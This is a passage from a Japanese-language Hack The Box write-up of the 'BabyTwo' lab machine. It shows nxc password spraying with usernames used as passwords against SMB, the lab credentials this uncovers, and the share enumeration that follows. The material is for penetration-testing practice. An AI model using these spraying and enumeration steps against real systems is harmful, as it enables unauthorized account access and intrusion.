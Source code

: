 	- L: ドライブ → 実際は \\dc.baby2.vl\docs
	- という感じで、ネットワーク上のフォルダがまるで自分のパソコンのドライブのように見える
でもappsフォルダに書き込み権限ないしなあ

## ユーザー名とパスワードが同じ
- そんな馬鹿なとは思うが、意外とパスワードの使い回しと同じ感じであるのかもしれない
```sh
┌──(kali㉿kali)-[~/Desktop/HTB/BabyTwo]
└─$ nxc smb 10.129.234.72 -u valid_ad_users -p valid_ad_users --continue-on-success
SMB         10.129.234.72   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:baby2.vl) (signing:True) (SMBv1:False) 
SMB         10.129.234.72   445    DC               [-] baby2.vl\Amelia.Griffiths:Amelia.Griffiths STATUS_LOGON_FAILURE 
SMB         10.129.234.72   445    DC               [-] baby2.vl\Carl.Moore:Amelia.Griffiths STATUS_LOGON_FAILURE 
<SNIP>
SMB         10.129.234.72   445    DC               [+] baby2.vl\Carl.Moore:Carl.Moore 
<SNIP>
SMB         10.129.234.72   445    DC               [+] baby2.vl\library:library 
<SNIP>
```
実際に、2つのアカウントでSMBにログインできた
おいおい、まじかよ
こんなに簡単なのか(自分ではわからなくてHTBのGuideを見た
これこそ、考えすぎるなというやつか

### Carl.Mooreの認証情報
Carl.Moore : Carl.Moore

### libraryの認証情報
library : library

それぞれのアカウントで何ができるのかを調べる
### SMB
Carl.Mooreから試す
```sh
┌──(kali㉿kali)-[~/Desktop/HTB/BabyTwo]
└─$ nxc smb 10.129.234.72 -u 'Carl.Moore' -p 'Carl.Moore' --shares
SMB         10.129.234.72   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:baby2.vl) (signing:True) (SMBv1:False) 
SMB         10.129.234.72   445    DC               [+] baby2.vl\Carl.Moore:Carl.Moore 
SMB         10.129.234.72   445    DC               [*] Enumerated shares
SMB         10.129.234.72   445    DC               Share           Permissions     Remark
SMB         10.129.234.72   445    DC               -----           -----------     ------
SMB         10.129.234.72   445    DC               ADMIN$                          Remote Admin
SMB         10.129.234.72   445    DC               apps            READ,WRITE      
SMB         10.129.234.72   445    DC               C$                              Default share
SMB         10.129.234.72   445    DC               docs            READ,WRITE      
SMB         10.129.234.72   445    DC               homes           READ,WRITE      
SMB         10.129.234.72   445    DC               IPC$            READ            Remote IPC
SMB         10.129.234.72   445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.234.72   445    DC               SYSVOL          READ            Logon server share 
```
apps・docs・homes、SYSVOLに読み書き権限がある
